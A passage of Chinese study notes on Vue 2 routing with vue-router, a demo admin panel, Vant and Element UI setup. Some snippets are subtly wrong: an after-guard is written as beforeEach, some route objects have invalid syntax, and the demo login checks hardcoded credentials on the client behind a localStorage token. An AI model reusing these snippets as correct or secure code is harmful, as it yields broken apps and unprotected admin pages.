  },
~~~

> 此时 App.vue 就会只会显示 Home 组件了


监听地址栏 hash 值的变化，只要 hash 值变化，就可以通过 location.hash 获取新的 hash 值，然后将 hash 值赋值给 data 中的 comName 达到切换组件的效果

~~~js
created () {
    // 只要当前的 App 组件被创建，就立即监听 window 对象的 onhashchange 事件
    window.onhashchange = () => {
        // 通过 location.hash 获取 Hash 值
        switch (location.hash) {
            case '#/home':
                this.comName = 'Home'
                break
            case '#/movie':
                this.comName = 'Movie'
                break
            case '#/about':
                this.comName = 'About'
                break
        }
    }
}
~~~


## 4. vue-router

vue-router 是 vue.js 官方给出的路由解决方案。它只能结合 vue 项目进行使用，能够轻松管理 SPA 项目中组件的切换。

vue-router 的官方文档地址：https://router.vuejs.org/zh/


安装和配置 vue-router 步骤

- 安装 vue-router 包
- 创建路由模块
- 导入并挂载路由模块
- 声明路由链接和占位符


### 4.1 安装 vue-router

在 vue2 的项目中，安装 vue-router 的命令如下：

~~~
npm i vue-router@3.5.2 -S
~~~


### 4.2 创建路由模块

在 src 源代码目录下，新建 router/index.js 路由模块，并初始化如下的代码：

~~~js
// 1. 导入 Vue 和 Vue Router 的包
import Vue from 'vue'
import VueRouter from 'vue-router'

// 2. 调用 Vue.use() 函数，把 VueRouter 安装为 Vue 的插件
Vue.use(VueRouter)

// 3. 创建路由的实例对象
const router = new VueRouter()

// 4. 向外共享路由的实例对象
export default router

~~~


### 4.3 挂载到 main.js

路由模块创建完毕后，并没有与 main.js 也就是我们的项目文件产生任何交互，需要将路由模块挂载到 Vue 实例中

~~~js
import Vue from 'vue'
import App from './App.vue'
// 导入路由模块，拿到路由的实例对象
import router from '@/router/index.js'
// 导入 bootstrap
import '../node_modules/bootstrap/dist/css/bootstrap.min.css'

Vue.config.productionTip = false

new Vue({
  render: h => h(App),
  // 挂载路由实例对象
  router: router
  // 路由属性与值相同，可以直接简写
  // router
}).$mount('#app')

~~~


在模块化导入的时候，如果给定的是文件夹，则默认导入文件夹下的 index.js 文件，所以导入模块可以写成

~~~js
import router from '@/router'
~~~


如果是指定文件，可以省略扩展名

~~~js
import router from '@/router/index'
~~~


## 5. 路由的基本用法

只要在项目中安装和配置了 vue-router，就可以使用 router-view 这个组件了，在组件中起到占位作用，指定组件需要呈现的位置，如：

~~~vue
<template>
  <div class="container mt-4">
    <h2>Vue-Router</h2>
    <hr />
    <div class="row">
      <div class="col-3">
        <ul class="nav nav-pills flex-column">
          <li class="nav-item">
            <a class="nav-link active" href="#">首页</a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="#">关于</a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="#">电影</a>
          </li>
        </ul>
      </div>

      <div class="col-9">
        <router-view></router-view>
      </div>
    </div>
  </div>
</template>

<script>
export default {}
</script>

~~~


之后需要让路由与hash产生对应关系，我们要在 router/index.js 中配置路由，首先导入模块

~~~js
// 导入组件
import Home from '@/components/Home'
import Movie from '@/components/Movie'
import About from '@/components/About'
~~~


配置路由实例对象中的路由规则

~~~js
const router = new VueRouter(
    {
        // routes 是一个数组，作用是定义 hash 地址与组件之间的对应关系
        routes: [
            { path: '/home', component: Home },
            { path: '/movie', component: Movie },
            { path: '/about', component: About }
        ]
    }
)

~~~


## 6. router-link

当安装和配置了 vue-router 后，就可以使用 router-link 来代替普通的 a 链接了，用来实现路由的切换，写法如下：

~~~vue
<ul class="nav nav-pills flex-column">
    <li class="nav-item">
        <router-link class="nav-link" to="/home">首页</router-link>
    </li>
    <li class="nav-item">
        <router-link class="nav-link" to="/about">关于</router-link>
    </li>
    <li class="nav-item">
        <router-link class="nav-link" to="/movie">电影</router-link>
    </li>
</ul>
~~~


当路由被点击后，可以让 vue-router 自动给加上 router 样式，需要使用 `active-class` 属性	：

~~~vue
<router-link active-class="active" to="/home">首页</router-link>
~~~


## 7. 路由组件

一般由路由控制并渲染在 `<router-view>` 位置的组件被称为路由组件，而一般组件则是直接使用标签形形式，如 `<myHeader></myHeader>` 写在根组件中。

- 路由组件放在 pages 路径
- 一般组件放在 components 路径


> 路由组件的切换，实际上是销毁当前组件并加载新组件的过程


## 7. 路由重定向 redirect

路由重定向指的是：用户在访问地址 A 的时候，强制用户跳转到地址 C，从而展示特定的组件页面。

通过路由规则的 redirect 属性，指定一个新的路由地址，可以很方便地设置路由的重定向：

~~~js
{ path: '/', redirect: '/home' }
~~~


## 8. 嵌套路由

通过路由实现组件的嵌套展示，叫做嵌套路由。当子组件中也需要切换展示不同组件的时候，形成了路由嵌套。如图所示：


在子组件中添加 router-link 和 router-view

~~~vue
<template>
  <div class="about-container">
    <h2>About 组件</h2>
    <router-link class="btn" to="/about/tab1">Tab1</router-link>
    <router-link class="btn" to="/about/tab2">Tab2</router-link>
    <hr />
    <router-view></router-view>
  </div>
</template>
~~~


在路由规则中通过 children 属性声明子路由规则

在 src/router/index.js 中，导入所需要的模块，并使用 children 属性声明子路由规则

~~~json
{
    path: '/about',
    component: About,
    children: [
        { path: 'tab1', component: Tab1 },
        { path: 'tab2', component: Tab2 }
    ]
}
~~~

> 子路由规则中路径不需要使用斜线


子路由的重定向

~~~json
{
    path: '/about',
    component: About,
    // 添加 redirect 属性实现子路由的重定向
    redirect: '/about/tab1',
    children: [
        { path: 'tab1', component: Tab1 },
        { path: 'tab2', component: Tab2 }
    ]
}
~~~


## 9. 默认路由

如果路由规则中的 path 为空字符串，则这条路由规则为默认路由，同样可以实现 redirect 的功能，如：

~~~json
{
    path: '/about',
    component: About,
    children: [
          { path: '', component: Tab1 },
          { path: 'tab1', component: Tab1 },
          { path: 'tab2', component: Tab2 }
    ]
}
~~~


## 10. 动态路由

少量地址我们可以手写，当出现批量路由时，我们则需要使用动态路由，如：

~~~vue
<router-link to="/movie/1">电影1</router-link>
<router-link to="/movie/2">电影2</router-link>
<router-link to="/movie/3">电影3</router-link>
....
<router-link to="/movie/99">电影99</router-link>
~~~


定义 Movie 组件

~~~vue
<template>
  <div>
    <ul>
      <li v-for="m in movies" :key="m.id">
        <router-link :to="`/movie/detail/${m.id}/${m.title}`">电影编号：{{ m.id }}</router-link>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>

<script>
export default {
  data() {
    return {
      movies: [
        { id: '001', title: '无极' },
        { id: '002', title: '澡堂' },
        { id: '003', title: '功夫' },
      ],
    }
  },
}
</script>

<style></style>

~~~


动态路由是指，把 hash 地址中可变的部分定义为参数项，从而提高路由规则的复用性。

在 vue-router 中使用英文的冒号（：）来定义路由的参数项。示例代码如下：

~~~josn
{ path: '/movie', component: Movie, children: [{ path: 'detail/:id/:title', component: Detail }] },
~~~


在组件中可以通过组件实例拿到传递过来的参数

~~~vue
console.log(this.$route.params.id)
~~~

> 之后通过 id 进行发送请求获取数据，然后渲染页面什么的都可以了，就可以显示不同 id 对应的不同页面


在 Detail 组件中可以直接读取 route

~~~vue
<template>
  <ul>
    <li>电影编号：{{ $route.params.id }}</li>
    <li>电影名称：{{ $route.params.title }}</li>
  </ul>
</template>

~~~


## 11. props 属性

props 属性也可以进行参数的传递，props 属性有三种书写方式：

- 对象式
- 布尔值
- 函数式


将 props 属性写在路由中，值为对象，该对象中所有的 key-value 的组合最终都会通过 props 传给 Detail 组件，如：

~~~json
{ 
    path: '/home', 
    component: Home, 
    props: {a:900}
}
~~~


那么在模板中定义 props 时，就会传入在路由中定义的 props 属性

~~~vue
<template>
  <h3>首页内容 - {{ a }}</h3>
</template>

<script>
export default {
  props: ['a'],
}
</script>

<style></style>

~~~


props 属性为布尔值，当布尔值为 true 时，则把路由收到的所有 params 参数通过 props 传给 Detail 组件

Url：http://localhost:8080/#/movie/detail/001/无极

~~~
{ path: '/movie', component: Movie, children: [{ path: 'detail/:id/:title', component: Detail, props: true }] },
~~~


然后再组件中可以利用定义 props 定义 id 属性获得参数值

~~~
<template>
  <ul>
    <li>电影编号：{{ id }}</li>
    <li>电影名称：{{ title }}</li>
  </ul>
</template>

<script>
export default {
  props: ['id', 'title'],
}
</script>
~~~


props 属性为函数，该函数返回的对象中每一组 key-value 都会通过 props 传给 Detail 组件，如：

Url 为：http://localhost:8080/#/movie/detail?id=001&title=%E6%97%A0%E6%9E%81

~~~js
props(route){
    return {
        id:route.query.id,
        title:route.query.title
    }
}
~~~


~~~vue
<template>
  <ul>
    <li>电影编号：{{ id }}</li>
    <li>电影名称：{{ title }}</li>
  </ul>
</template>

<script>
export default {
  props:['id','title']
}
</script>
~~~


## 11. $route 其他参数

组件被路由挂载后，组件实例上会多两个属性即：$route, $router

- $router 为路由器，所有组件下的 $router 属性公用一个路由器
- $route 为路由规则，不同组件的路由规则是不同的


| 参数     | 说明                    |
| -------- | ----------------------- |
| 路径参数 | /movie/1                |
| 查询参数 | /movie/1?name=zs&age=18 |


- 路径参数可以通过 `this.$route.params` 获取
- 查询参数可以通过 `this.$route.query` 获取
- 完整路径  this.$route.fullpath
- 相对路径 this.$route.path


路由规则：

~~~js
const router = new vueRouter({
  routes: [
    { path: '/', redirect: '/home' },
    { path: '/home', component: Home },
    {
      path: '/about',
      component: About,
      children: [
        { path: '', component: Tab1 },
        { path: 'tab1', component: Tab1 },
        { path: 'tab2', component: Tab2 },
      ],
    },
    { path: '/movie', component: Movie, children: [{ path: 'detail', component: Detail }] },
  ],
})
~~~


组件中通过 query 传递参数

~~~vue
<li v-for="m in movies" :key="m.id">
    <router-link :to="`/movie/detail?id=${m.id}&title=${m.title}`">电影编号：{{ m.id }}</router-link>
</li>
~~~


对象写法

~~~html
      <li v-for="m in movies" :key="m.id">
        <router-link
          :to="{
            path: '/movie/detail',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
          >电影编号：{{ m.id }}</router-link
        >
      </li>
~~~


子级路由接受参数

~~~html
<template>
  <ul>
    <li>电影编号：{{ $route.query.id }}</li>
    <li>电影名称：{{ $route.query.title }}</li>
  </ul>
</template>
~~~


## 12. 命名路由

在路由规则中可以给路由规则起名，如：

~~~js
routes:[
    {
        name:'guanyu',
        path:'/about',
        component: About
    },
~~~


在 router-link 中，可以直接使用路由名，来指定跳转，不过 to 属性必须写成对象形式，如：

~~~vue
<router-link :to="{name:guanyu}"></router-link>
~~~


~~~vue
<router-link :to="{
                  name:'xiangqing',
                  query:{
                  id:m.id,
                  title:m.title
                  }
                  }">{{m.title}}</router-link>
~~~

> 使用 params 接受参数，必须使用 name 属性，不可以使用


## 12. 声明式导航

在浏览器中，点击链接实现导航的方式，叫做声明式导航。例如：

- 普通网页中点击 `<a> 链接`、vue 项目中点击 `<router-link>` 都属于声明式导航


## 13. 编程式导航

在浏览器中，调用 API 方法实现导航的方式，叫做编程式导航。例如：

- 普通网页中调用 location.href 跳转到新页面的方式，属于编程式导航


vue-router 提供了许多编程式导航的 API， 其中最常见的导航 API 分别是：

- `this.$router.push('hash 地址')`
  
  - 跳转到指定页面，并增加一条历史记录
- `this.$router.replace('hash 地址')`
  
  - 跳转到指定的 hash 地址，并替换掉当前的历史记录
  
  - 在 router-link 中使用 replace 标签开启 replace 模式
  
  - ~~~vue
    <router-link replace to:"/home">跳转</router-link>
    ~~~
  
- `this.$router.go(数值 n)`
  
  - 在历史记录中前进或后退几层（负数是后退，正数是前进）


$router.push 和 $router.replace 的对象式写法：

在 movie 列表中添加按钮

~~~vue
    <ul>
      <li v-for="m in movies" :key="m.id">
        <router-link
          :to="{
            path: '/movie/detail',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
          >电影编号：{{ m.id }}</router-link
        >
        <button @click="pushShow(m)">点我跳转</button>
      </li>
    </ul>
~~~


添加 pushShow(m) 方法

~~~js
  methods: {
    pushShow(m) {
      this.$router.push({
        name: 'about',
        query: {
          id: m.id,
          title: m.title,
        },
      })
    },
  },
~~~


this.$rouer.go 的简化用法：

- `this.$router.back()`
  - 在历史记录中，后退到上一个页面
- `this.$router.forward()`
  - 在历史记录中，前进到下一个页面


在行内可以直接使用编程式导航，需要省略 this，如：

~~~html
<button @click="$router.back()">后退</button>
~~~


## 13. 路由声明周期

当组件被切换时，当前组件被销毁，新的组件进行加载渲染页面，可以使用 keep-alive 来帮助我们缓存组件。其中有两个新的声明周期函数：

- activated 当组件被展示时自动调用
- deactivated 当组件被销毁时自动调用


使用场景：当组件使用 keep-alive ，但是又想禁用其中的某些函数比如定时器，由于使用 keep-alive 缓存组件，函数依旧在运行。使用 activated 和 deactivated 可以很好的帮助我们解决这个问题。


## 14. 导航守卫

导航守卫可以控制路由的访问权限，示意图如下：


### 14.1 全局前置守卫

在跳转之前，做一个检测，来判断用户是否有权限进行跳转

每次发生路由的导航跳转时，都会触发全局前置守卫，因此，在全局前置守卫中，程序员可以对每个路由进行访问权限的控制


在 router/index.js 中调用 router.beforeEach(fn)

~~~js
const router = new VueRouter({...});
// 调用路由实例对象的 beforeEach 方法，即可声明 “全局前置守卫”
// 每次发生路由导航跳转的时候，都会自动触发 fn 这个 “回调函数”
router.beforeEach(fn);
~~~


### 14.2 全局前置守卫的3个形参

只要发生路由跳转，在跳转之前，必然会触发 beforeEach 指定的 function 回调函数，回调函数接受3个形参，格式为：

~~~js
router.beforeEach((to, from, next)=>{
// to 是将要访问的路由的信息对象
// from 是将要离开的路由信息对象
// next 是一个函数，调用 next() 表示放行，允许这次路由导航
});
~~~


路由信息对象中的属性：


### 14.3 next 函数的3种调用方式

- 当前用户拥有后台主页的访问权限，直接放行： next()


- 当前用户没有后台主页的访问权限，强制其跳转到登录页面：next('/login')


- 当前用户没有后台主页的访问权限，不允许跳转到后台主页：next(false)


### 案例：简单登录案例

App.vue

~~~html
<template>
    <div id="app">
        <h1>根组件</h1>
        <router-link to="/home">首页</router-link>
        <hr>
        <router-view></router-view>
    </div>
</template>

<script>
    export default {
        name: 'App'
    }
</script>

<style lang="less">
    a{
        margin-right:10px;
    }
</style>

~~~


Home.vue

~~~vue
<template>
  <div class="home-container">
    <h2>Home 组件</h2>
    <hr>
    <button @click="$router.push('/main')">跳转到后台 Main 组件</button>
  </div>
</template>

<script>
export default {

}
</script>

<style lang="less" scoped>
.home-container {
  height: 200px;
  background-color: pink;
}
</style>

~~~


Main.vue

~~~html
<template>
  <div class="main-container">
    <h2>后台主页</h2>
    <hr>
  </div>
</template>

<script>
export default {

}
</script>

<style>

</style>

~~~


Login.vue

~~~html
<template>
  <div class="login-container">
    <h2>登录页面</h2>
  </div>
</template>

<script>
export default {

}
</script>

<style>

</style>

~~~


在 router/index.js 中导入模块，并设置路由

~~~js
import Vue from 'vue'
import VueRouter from 'vue-router'

// 导入组件
import Main from '@/components/Main.vue'
import Login from '@/components/Login.vue'

Vue.use(VueRouter)


const router = new VueRouter(
  {
    routes: [
      { path: '/', redirect: '/home' },
      { path: '/home', component: Home },
      { path: '/main', component: Main },
      { path: '/login', component: Login }

    ]
  }
)
router.beforeEach((to, from, next) => {
  next()
})

export default router

~~~


通过 beforeEach 进行验证

~~~js
router.beforeEach((to, from, next) => {
  // 判断 url 中的 hash 值是否为 /main
  if (to.path === '/main') {
    // 如果为 /main 获取 localStorage 中的 token 值
    const token = localStorage.getItem('token')
    if (token) {
      // 如果有 token 值，则跳转到后台
      next()
    } else {
      // 否则跳转到登录页面
      next('/login')
    }
  } else {
    // 如果 url 中的 hash 值不是 /main 则无需验证
    next()
  }
})
~~~

> 通过创建 localStorage 中的 token 值验证守卫是否工作


## 15. 路由元信息

在 $route 对象的属性中，有个 meta 属性，其中可以放一些用户自定义的配置项，如在前置守卫中，我们需要进行判断的页面过多，可以在 $route 中添加该属性，如：

~~~js
routes:[
    name:'login',
    path:'/login',
    component:Login,
    meta:{isAuth:true}
    ]
~~~


全局前置守卫：

~~~js
router.beforeEach((to, from, next)=>{
    if(to.meta.isAuth){
        if(localStorage.getItem('token')){
            next()
        }else{
            alert('Need Login')
        }
    }else {
        next()
    }
})
~~~


## 16. 后置路由守卫

后置路由守卫和前置路由守卫类似，只不过后置路由守卫没有 next 控制，如：

~~~js
router.beforeEach((to, from)=>{

})
~~~


后置路由守卫可以用来切换页面 title 变化，如：

- 在路由配置中的 meta 中添加 title 属性

~~~js
routes:[
    name:'login',
    path:'/login',
    component:Login,
    meta:{isAuth:true, title:'登录页'}
    ]
~~~


- 后置路由

~~~js
router.beforeEach((to, from)=>{
    document.title = to.meta.title || '硅谷系统'
})
~~~


## 17. 独享路由守卫

只针对单一路由规则进行限制，使用方法类似于全局前置守卫，只不过规则写在 route 规则中，如：

~~~js
routes:[
    name:'login',
    path:'/login',
    component:Login,
    meta:{isAuth:true, title:'登录页'},
    beforeEnter((to,from,next)=>{
        
    })
    ]
~~~

> 独享后置路由守卫没有后置路由守卫，如果需要写在全局后置路由守卫


## 18. 组件内路由首位

组件内路由守卫写在组件内，如：

~~~js
export default {
    // 通过路由规则，进入该组件时调用
  beforeRouteEnter (to, from, next) {
    // ...
  },
    // 通过路由规则，离开该组件时调用
  beforeRouteLeave (to, from, next) {
    // ...
  }
}
~~~

> 必须通过路由规则进入该组件或离开才会生效，使用标签组件形式不会生效，如：`<About></About>`


## 19. hash 模式和 history 模式

默认为 hash 模式，即项目中的 url 地址都是带有#号：

~~~
http://localhost:8080/#/about
~~~

> 通过这样的 url 地址进行跳转都是路由规则控制的，不会向后端服务器发送服务请求，后端收到的请求也只是 '/' 这个根路径


在 route 配置项中开启 history 模式，则将 # 去掉

~~~js
const router = new vueRouter({
    mode: 'history',
    routes: [
        { path: '/', redirect: '/home' },
    ]
})
~~~


在没有网络请求的情况下， history 模式可以正常工作，但是当进行刷新时，前端会对后端做一个 GET 请求，如果后端没有配置好路由的话，则会出现错误。需要后端对 URL 进行规则匹配。而 hash 模式则没有这个问题。


Node.js 后端 history 模式插件

- connect-history-api-fallback

~~~js
const history = require('connect-history-api-fallback');
app.use(history())
~~~


# 简单后台案例

## 1. 初始化项目

- 创建项目

~~~html
vue create demo-4
~~~


- 安装插件

~~~
npm install bootstrap@4 -S
npm install vue-router@3.5.2 -S
~~~


- 配置路由

src/router/index.js

~~~js
import Vue from 'vue'
import VueRouter from 'vue-router'

Vue.use(VueRouter)

const router = new VueRouter()

export default router

~~~


main.js

~~~js
import Vue from 'vue'
import App from './App.vue'
import router from '@/router/index'

Vue.config.productionTip = false

new Vue({
  render: h => h(App),
  router
}).$mount('#app')

~~~


- 导入 bootstrap 样式

main.js

~~~js
import '../node_modules/bootstrap/dist/css/bootstrap.min.css'
~~~


## 2. Login 组件

~~~vue
<template>
  <div class="login-container text-center">
    <form class="form-signin">
      
      <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
      <label for="username" class="sr-only">Email address</label>
      <input type="text" id="username" class="form-control" placeholder="Username" required="" autofocus="">
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="password" class="form-control" placeholder="Password" required="">
      <button class="btn btn-lg btn-primary btn-block mt-4" type="submit">Sign in</button>
      <button class="btn btn-lg btn-primary btn-block" type="submit">Reset</button>
   </form>
  </div>
</template>

<script>
export default {

}
</script>

<style>
.form-signin {
  width: 100%;
  max-width: 330px;
  padding: 15px;
  margin: auto;
}
</style>

~~~


登录组件路由

~~~js
import Vue from 'vue'
import VueRouter from 'vue-router'
import Login from '@/components/Login.vue'

Vue.use(VueRouter)

const router = new VueRouter({
  routes: [
    { path: '/', redirect: '/login' },
    { path: '/login', component: Login }
  ]
})

export default router

~~~


App.vue 路由占位

~~~vue
<template>
  <div id="app">
    <router-view></router-view>
  </div>
</template>

<script>
export default {

}
</script>

<style>
</style>

~~~


## 3. 模拟登录功能

- 在 data 中定义两个变量，username，password，并且用 v-model 绑定在输入框中

~~~js
  data () {
    return {
      username: '',
      password: ''
    }
  }
}
~~~


~~~vue
<input type="text" id="username" class="form-control" placeholder="Username" required="" autofocus="" v-model.trim="username">
<input type="password" id="password" class="form-control" placeholder="Password" required="" v-model.trim="password">
~~~


- 实现 reset 功能

~~~html
<button class="btn btn-lg btn-primary btn-block" type="submit" @click="reset">Reset</button>
~~~


~~~js
methods: {
    reset () {
      this.username = ''
      this.password = ''
    }
  }
}
~~~


- 实现 login 功能

~~~html
<button class="btn btn-lg btn-primary btn-block mt-4" type="submit" @click="login">Sign in</button>
~~~


~~~js
login () {
    // 如果用户名密码匹配
    if (this.username === 'admin' && this.password === '666666') {
        // 存储 token，并跳转到后台
        localStorage.setItem('token', 'Bearer tokenxxxxxx')
        this.$router.push('/home')
    } else {
        // 登录失败，清除 token
        localStorage.removeItem('token')
    }
}
~~~


## 4.  后台主页

- 在路由配置文件中，导入后台组件，并添加路由规则

~~~js
import Vue from 'vue'
import VueRouter from 'vue-router'
import Login from '@/components/Login.vue'
import Home from '@/components/Home.vue'

Vue.use(VueRouter)

const router = new VueRouter({
  routes: [
    { path: '/', redirect: '/login' },
    { path: '/login', component: Login },
    { path: '/home', component: Home }

  ]
})

export default router

~~~


- 后台布局

后台首页分为上、下两部分，下部分又包括左右两部分，如图：


头部和左侧边栏是固定的，可以直接引入组件，右侧则是可变的，通过路由展示不同组件

~~~vue
<template>
  <div class="home-container">
    <Header></Header>
    <div class="row">
      <div class="col-4">
        <Aside></Aside>
      </div>
      <div class="col-8">
        <router-view></router-view>
      </div>
    </div>
  </div>
</template>

<script>
import Header from '@/components/Header.vue'
import Aside from '@/components/Aside.vue'

export default {
  components: {
    Header,
    Aside
  }
}
</script>

<style>

</style>

~~~


Header.vue

~~~vue
<template>
  <div class="header-container row p-5">

      <div class="col mr-auto">后台管理系统</div>
      <button class="btn btn-primary">退出登录</button>

  </div>
</template>

<script>
export default {

}
</script>

<style>
.header-container {
  background-color:#ccc;
}
</style>

~~~


Aside.vue

~~~vue
<template>
<div class="aside-container">
  <ul class="list-unstyled">
    <li><router-link to="/home/users">用户管理</router-link></li>
    <li><router-link to="/home/rights">权限管理</router-link></li>
    <li><router-link to="/home/goods">商品管理</router-link></li>
    <li><router-link to="/home/order">订单管理</router-link></li>
    <li><router-link to="/home/setting">系统设置</router-link></li>
  </ul>
</div>
</template>

<script>
export default {

}
</script>

<style lang="less" scoped>
ul>li {
  padding-left:40px;
  height: 40px;
  line-height:40px;
}

ul>li:hover{
  border-left:4px solid #48b18e;
  background-color:#efefef;
}

ul>li a{
  font-size:20px;
  font-weight: 800;
}
</style>

~~~


嵌套路由配置

~~~js
import Vue from 'vue'
import VueRouter from 'vue-router'
import Login from '@/components/Login.vue'
import Home from '@/components/Home.vue'
import Users from '@/components/menus/Users.vue'
import Rights from '@/components/menus/Rights.vue'
import Goods from '@/components/menus/Goods.vue'
import Order from '@/components/menus/Order.vue'
import Setting from '@/components/menus/Setting.vue'

Vue.use(VueRouter)

const router = new VueRouter({
  routes: [
    { path: '/', redirect: '/login' },
    { path: '/login', component: Login },
    {
      path: '/home',
      component: Home,
      children: [
        { path: 'users', component: Users },
        { path: 'rights', component: Rights },
        { path: 'goods', component: Goods },
        { path: 'order', component: Order },
        { path: 'setting', component: Setting }

      ]
    }
  ]
})

export default router

~~~


## 5. 退出登录

清空 localstorage 中的 token，并且跳转到 login 页面

~~~html
<button class="btn btn-primary" @click="logout">退出登录</button>
~~~


~~~js
  methods: {
    logout () {
      localStorage.removeItem('token')
      this.$router.push('/login')
    }
  }
}
~~~


## 6. 控制权限

在路由 index.js 中控制登录权限

~~~js
router.beforeEach(function (to, from, next) {
  if (to.path !== '/login') {
    if (localStorage.getItem('token')) {
      next()
    } else {
      next('/login')
    }
  } else {
    next()
  }
})
~~~


## 7. 用户详情页

Users.vue

通过 data 中的数据将数据渲染到表格上

~~~vue
<template>
  <div class="users-container">
    <table class="table mt-4">
  <thead>
    <tr>
      <th scope="col">#</th>
      <th scope="col">姓名</th>
      <th scope="col">年龄</th>
      <th scope="col">操作</th>
    </tr>
  </thead>
  <tbody>
    <tr v-for="item in userlist" :key="item.id">
      <th scope="row">{{item.id}}</th>
      <td>{{item.name}}</td>
      <td>{{item.age}}</td>
      <td>
        <a href="#" @click.prevent="gotoDetail(item.id)">操作</a>
      </td>
    </tr>
  </tbody>
</table>
  </div>
</template>

<script>
export default {
  data () {
    return {
      userlist: [
        { id: 1, name: '富贵', age: 18 },
        { id: 2, name: '张三', age: 19 },
        { id: 3, name: '李四', age: 20 },
        { id: 4, name: '王五', age: 21 }

      ]
    }
  },
  methods: {
    gotoDetail (id) {
      this.$router.push('/home/userinfo/' + id)
    }
  }
}
</script>

<style>

</style>

~~~


因为详情页还是在 Home 框架中显示，所以详情页看似是 Users.vue 的子路由，但是其实是 Home 页面的子路由

~~~js
{ path: 'userinfo/:id', component: UserInfo }
~~~


UserInfo.vue 获取 id，并添加后退按钮

~~~vue
<template>
<div class="userinfo-container">
    <button class="btn btn-primary mt-4" @click="$router.back()">后退</button>
    <p>userinfo  -- {{$route.params.id}}</p>

    </div>
</template>

<script>
    export default {

    }
</script>

<style>

</style>

~~~


# 黑马头条案例 - Vant 组件库

http://doc.toutiao.liulongbin.top/


## 1. 初始化项目

~~~
vue create demo-toutiao
~~~


在配置项目中，选择安装 Router，项目生成后，src 目录下会多出一个文件夹 views，这个 views 也是用来放组件的，和 components 的区别是，如果组件是通过路由来展示在页面的话，那么这个组件应该放在 views 文件夹中


## 2. Vant 组件库

https://vant-contrib.gitee.io/vant/#/zh-CN/


### 2.1 安装 Vant

~~~
npm i install vant -S
~~~


### 2.2 引入组件

官方提供三种方法，推荐自动按需引入组件，但是配置繁琐，目前学习使用 Vant ，导入所有组件，在 main.js 中配置 Vant

~~~js
import Vue from 'vue';
import Vant from 'vant';
import 'vant/lib/index.css';

Vue.use(Vant);
~~~

> 之后可以通过打包方案优化 Vant


### 2.3 按需引入组件

安装插件

~~~
npm i babel-plugin-import -D
~~~


在 babel.config.js 中配置插件

~~~js
module.exports = {
  presets: ['@vue/cli-plugin-babel/preset'],
  plugins: [
    [
      'import',
      {
        libraryName: 'vant',
        libraryDirectory: 'es',
        style: true,
      },
      'vant',
    ],
  ],
}

~~~


在 main.js 注册所需引入的组件

~~~js
import Vue from 'vue'
import App from './App'

import { Button } from 'vant'
Vue.use(Button)

new Vue({
  render: (h) => h(App),
}).$mount('#app')

~~~


### 2.4 使用组件

在组件中，使用 Vant 组件库中的代码即可，如：

~~~vue
<template>
  <div id="app">
    <van-button type="primary">主要按钮</van-button>
    <van-button type="info">信息按钮</van-button>
    <van-button type="default">默认按钮</van-button>
    <van-button type="warning">警告按钮</van-button>
    <van-button type="danger">危险按钮</van-button>
  </div>
</template>
~~~


## 3. Home.vue

views/Home/Home.vue


## 4. User.vue

views/User/User.vue	


## 5. Vant Tabbar

- 更改图标
- 添加路由


## 6. 路由规则 index.js

- / 规则
- /user 规则


## 7. Navbar

- 头部 Header
- 固定顶部
- 简写形式
- 内容被 Header 和 Footer 覆盖，加 Padding 解决
- Header 背景颜色和 Title 颜色（/deep/）


## 8. 请求数据

- API 接口格式
- 安装 axios
- utils 目录封装 request.js 将 axios ，可以定义不同的 baseURL
- 组件中导入 request.js 发送请求


## 9. 封装请求 API

- 封装 getArticleAPI.js
- 返回一个 Promise 对象
- 通过 axios 拿到数据
- 保存在 data 中的 artlist 数组中


## 10. ArticleItem.vue

Components/Article/ArticleItem.vue


## 11. Home.vue 遍历渲染组件

- v-for 遍历数据
- 传递数据到 ArticleItem.vue 的 props 
- 官方建议 props 中的属性如果是小驼峰，传值时应该用横线连接
- props 中对象的默认值
- 渲染图片


## 12. List 列表上拉加载更多

- 合并数据


## 13. 下拉刷新


## 14. 定制主题

- 引入 Less 样式源文件

在 babel.config.js 中配置按需引入样式源文件，注意 babel6 不支持按需引入样式，请手动引入样式。

~~~js
module.exports = {
  presets: ['@vue/cli-plugin-babel/preset'],
  plugins: [
    [
      'import',
      {
        libraryName: 'vant',
        libraryDirectory: 'es',
        // 指定样式路径
        style: (name) => `${name}/style/less`,
      },
      'vant',
    ],
  ],
}

~~~


- vue.config.js

直接在 vue.config.js 中添加样式即可，或者引入自己自定义 less 样式文件

~~~js
// vue.config.js
module.exports = {
  css: {
    loaderOptions: {
      less: {
        // 若 less-loader 版本小于 6.0，请移除 lessOptions 这一级，直接配置选项。
        lessOptions: {
          modifyVars: {
            // 直接覆盖变量
            'text-color': '#111',
            'border-color': '#eee',
            // 或者可以通过 less 文件覆盖（文件路径为绝对路径）
            // hack: `true; @import "your-less-file-path.less";`,
          },
        },
      },
    },
  },
};
~~~


关于 webpack 与 less-loader 冲突

默认 vue2.x 版本 cli 创建项目使用的是 webpack4，所对应的 less-loader 插件需要安装 7 版本

~~~js
npm i less-loader@7 -S
~~~


## 15. loash 记忆切换页面位置


## 16. 项目打包

~~~
npm run build
~~~

> 会在项目路径下生成 dist 文件夹


- 默认只能在服务器协议下打开

- 本地打开需要修改 vue.config.js 中的 publicPath 属性为 './

  

# Element UI

常用移动端组件库：

- Vant
- Cube UI
- Minit UI


PC 端常用组件库：

- Element UI
- Iview UI


## 1. 安装

~~~
npm i element-ui -S
~~~


## 2. 引入

main.js 引入并加载插件

~~~js
import Vue from 'vue'
import App from './App'

import ElementUI from 'element-ui'
import 'element-ui/lib/theme-chalk/index.css'

Vue.use(ElementUI)
new Vue({
  render: (h) => h(App),
}).$mount('#app')

~~~


## 3. 使用

如：加载按钮

~~~vue
<template>
  <div>
    <el-row>
      <el-button>默认按钮</el-button>
      <el-button type="primary">主要按钮</el-button>
      <el-button type="success">成功按钮</el-button>
      <el-button type="info">信息按钮</el-button>
      <el-button type="warning">警告按钮</el-button>
      <el-button type="danger">危险按钮</el-button>
    </el-row>
  </div>
</template>
~~~


## 4. 按需引入

借助 babel-plugin-component，我们可以只引入需要的组件，以达到减小项目体积的目的。

首先，安装 babel-plugin-component：

~~~
npm install babel-plugin-component -D
~~~


然后，将 babel.config.js 修改为：

~~~js
module.exports = {
  presets: ['@vue/cli-plugin-babel/preset', ['@babel/preset-env', { modules: false }]],
